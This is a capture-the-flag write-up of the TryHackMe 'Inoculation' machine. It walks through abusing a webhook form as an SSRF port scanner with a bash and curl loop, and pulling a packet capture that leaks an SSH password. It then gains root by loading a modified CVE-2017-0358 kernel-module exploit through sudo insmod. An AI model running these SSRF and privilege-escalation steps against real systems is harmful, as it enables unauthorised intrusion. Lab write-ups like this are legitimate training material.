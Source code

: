 ```yaml
---
layout: post
title: Inoculation writeup
date: 2019-09-14 8:45
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://tryhackme.com/room/inoculation">Inoculation</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap

![](images/inn/nmap.png)

We can see only two ports are open. Let's start our enumeration with HTTP service.

***

## HTTP

If we visit the website we can see a simple text field which accepts `https` URLs.

![](images/inn/website.png)

I tried including lot of URLs but none seemed to bear anything useful. Then [@theart42](https://twitter.com/theart42) told me that I should use that webhook as a port scanner for internal system. He also told me to use `burp suite's` intruder for this. So I captured the requests in burp and prepared the burp intruder.

For payload position I only changed the port number.

![](images/inn/position.png)

For Payload I used port numbers from `1-65535`. If you don't have that you can just generate this by simple python code.

```python
file = "port-num.txt"
with open(file, 'w') as f:
       for i in range(1,65536):
           f.write(str(i))
           f.write("\n" )
```
This code will give you a file named `port-num.txt` that will have all the port numbers. Now just load it in the payload section and start the attack.
But the problem was that attack was very slow so I decided to use make a bash script that will do the same work for us.

```bash
for x in {1..65535};
    do cmd=$(curl -so /dev/null -X POST http://192.168.56.126/testhook.php --data "handler=http://2130706433:${x}" -w '%{size_download}')
    if [ $cmd != 0 ]; then
        echo "Open port: $x"
    fi
done
```

This script will output all the ports that doesn't return content-length equal to 0. Scirpt will also take some time but it will be much lesser as compared to burp suite.

![](images/inn/script.png)

So port `80` and `9999`are open. On port 80 I got `bad request` but on port `9999` I could see some directory typed output.

![](images/inn/9999.png)

I downloaded that `dump.pcap` via curl by running:

```bash
➜ curl -X POST http://192.168.56.126/testhook.php --data "handler=http://2130706433:9999/dump.pcap" --output dump.pcap
```

That file didn't had much data only few request and one of them had the password.

![](images/inn/password.png)

`maynard:Js&S_uFJgg~YM4_g`

**NOTE**: the url `/pass4maynard` gives away the username.

I used these credentials to login via SSH and get the `user.txt`

***

## Privilege Escalation

I ran my enumeration script but didn't found anything good.
Then I checked for the `sudo` rights and there were some for `/sbin/insmod` and `/sbin/rmmod` and both of them were linked to `/bin/kmod`

![](images/inn/sudo-right.png)

I googled them and found an exploit for it and found [ntfs-3g (Debian 9) - Local Privilege Escalation](https://www.exploit-db.com/exploits/41240)

There are few changes that you might have to do in that exploit. In the `makefile` section copy paste:

```
obj-m += cve_2017_0358.o

all:
    make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) modules

clean:
    make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) clean
```

also make sure you are using `ubuntu 18.04` because other OS might not have those headers. We are doing this because because there is no `make` on the vitim machine. And that header has to be changed because the exploit is only for debian 9.

If everything worked fine then you've have a `cve_2017_0358.ko`. Transfer that to machine and run `sudo insmod ./cve_2017_0358.ko` that will make a `suid` in `/tmp` then you can get root shell using `./r00t -p`.

![](images/inn/root-shell.png)

Then get the root flag.

![](images/inn/root.png)

***

This was really pretty awesome machine with really great foothold and an amazing privelege escalation.

Thanks to [@zayotic](https://twitter.com/zayotic/). Also thanks to [@theart42](https://twitter.com/theart42) for helping me out.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.

